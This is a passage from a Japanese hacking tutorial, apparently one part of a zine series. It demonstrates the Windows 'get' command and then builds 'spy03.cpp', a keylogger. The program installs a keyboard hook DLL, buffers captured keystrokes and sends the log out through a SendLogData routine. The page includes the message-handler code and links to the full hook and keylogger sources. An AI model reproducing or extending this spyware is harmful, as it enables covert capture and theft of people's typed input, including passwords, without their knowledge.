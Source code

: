 
### 0x06 getコマンド

　HTTPを利用してインターネット上のページを取得するのにもっともよく利用さ
れているプログラムはＩＥかもしれませんが、ページを取得するだけならコマン
ドプロンプトからgetコマンドを利用しても同様のことができます（もちろんこ
ちらはCUIですけどね、故に軽いです）。

```
C:\...\kenji>get http://kenjinet.s26.xrea.com/
<!DOCTYPE HTML PUBLIC "\-//W3C//DTD HTML 4.01 Transitional//EN">
<html lang\="ja\-JP">
.........
...(省略)...
............
</body>
</html>
C:\...\kenji>
```

　ＩＥではなくgetコマンドでも同様のことが可能でしょう。ということで、
spy02.cppをgetコマンド用に書き換えたspy03.cppを作ってみます。さらに、キー
ロギングの精度を上げるためにフックを利用します。

+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
| http://kenjinet.s26.xrea.com/spy/keyhook.h  |
| http://kenjinet.s26.xrea.com/spy/keylog.cpp |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+

　キーをフックするDLLです。前回（WBvol.8）使ったhookDll.cppやkeyhook.hと
同じです。

+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
| http://kenjinet.s26.xrea.com/spy/spy03.cpp |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+

```
    case WM_CREATE:
        if(MySetHook()) { DestroyWindow(hWnd); }
        break;
    case WM_KEYHOOK:
        c \= (char)wParam;
        if(c >\= 'A' && c <\= 'Z') { MainMemory[len] \= c, len++; }
        if( !(TEXT_SIZE > len) ){
            if(SendLogData(MainMemory, len)){
                DestroyWindow(hWnd);
            }
            len \= 0;
        }
        break;
    case WM_DESTROY:
        MyEndHook();
        PostQuitMessage(0);
        break;
```
